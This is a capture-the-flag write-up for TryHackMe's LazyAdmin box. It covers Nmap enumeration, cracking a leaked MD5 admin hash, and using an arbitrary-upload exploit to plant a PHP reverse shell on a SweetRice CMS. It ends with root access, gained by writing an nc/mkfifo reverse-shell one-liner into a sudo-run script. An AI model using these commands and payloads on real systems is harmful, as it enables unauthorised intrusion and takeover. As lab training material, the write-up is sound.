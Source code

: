 # TryHackMe

------------------------------------
### IP: 10.10.97.171
### Name: LazyAdmin
### Difficulty: Easy
--------------------------------------------

![lazyadmin.jpeg](../assets/lazyadmin_assets/lazyadmin.jpeg)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.183.91
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 10:23 CDT
Nmap scan report for 10.10.183.91
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.74 seconds
```

Navigating to port 80 we find an apache landing page.

Kicking off some directory fuzzing we find a `/content` endpoint:

![lazyadmin_dirs.png](../assets/lazyadmin_assets/lazyadmin_dirs.png)

Checking it out we see it is running Sweet Rice:

![lazyadmin_sr.png](../assets/lazyadmin_assets/lazyadmin_sr.png)

Navigating to http://10.10.183.91/content/as/ we find the sign-in page:

![lazyadmin_signin.png](../assets/lazyadmin_assets/lazyadmin_signin.png)

Looking back at our directory scanning, we find a `/inc` page, and in that directory we find a mysql backup file:

![lazyadmin_backup.png](../assets/lazyadmin_assets/lazyadmin_backup.png)

Taking a look at the file we find the manager's password hash:

![lazyadmin_hash.png](../assets/lazyadmin_assets/lazyadmin_hash.png)

This appears to be MD5, so lets crack it using Hashcat:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ hashcat hash /usr/share/wordlists/rockyou.txt -m 0  
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
```

Nice, we can now login with `manager:Password123`. 

![lazyadmin_in.png](../assets/lazyadmin_assets/lazyadmin_in.png)

Looking for exploits for version 1.5.1 I find this arbitrary upload vulnerability: https://www.exploit-db.com/exploits/40716

Essentially the exploit is just logging in and uploading a PHP file, and then giving us the URL we can find the attachment at:

```python
<SNIP>
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass 
```

Lets give it a shot.

### Exploitation

First I'll grab a copy of PentestMonkey's php_reverse_shell.php and rename it to shell.php:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ mv php-reverse-shell.php shell.php5                   
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ subl shell.php5   
```

Note: There is likely some file blacklisting going on, so it's important to update the extension to .php5, rather than just .php

I'll then open it up and change the address I'll be listening on:

![lazyadmin_script_update.png](../assets/lazyadmin_assets/lazyadmin_script_update.png)

Next I'll use the exploit to upload the file:

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ python sweetrice_upload.py
```

![lazyadmin_exploit1](../assets/lazyadmin_assets/lazyadmin_exploit1.png)

lazyadmin_exploit1.png

```
┌──(ryan㉿kali)-[~/THM/LazyAdmin]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.183.91] 43616
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:11:19 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
THM-Chal
```

I can then grab the user.txt flag:

![lazyadmin_user_flag.png](../assets/lazyadmin_assets/lazyadmin_user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what we can do with elevated permissions, we find we can execute a perl script as root:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Digging a bit deeper, we see we can't modify backup.pl directly, but the script calls another script, copy.sh,  which we do have write access over. And oddly enough that script is a reverse shell one liner (for some reason?). So we should just be able to update copy.sh to our IP address, execute backup.pl with sudo, and catch a reverse shell as root.

![lazyadmin_why.png](../assets/lazyadmin_assets/lazyadmin_why.png)

Update /etc/copy.sh
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.0.125 5554 >/tmp/f" > /etc/copy.sh
```

Set up a listener and execute backup.pl with sudo:
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

And we catch a shell as root where we can grab the final flag:

![lazyadmin_root_flag.png](../assets/lazyadmin_assets/lazyadmin_root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------
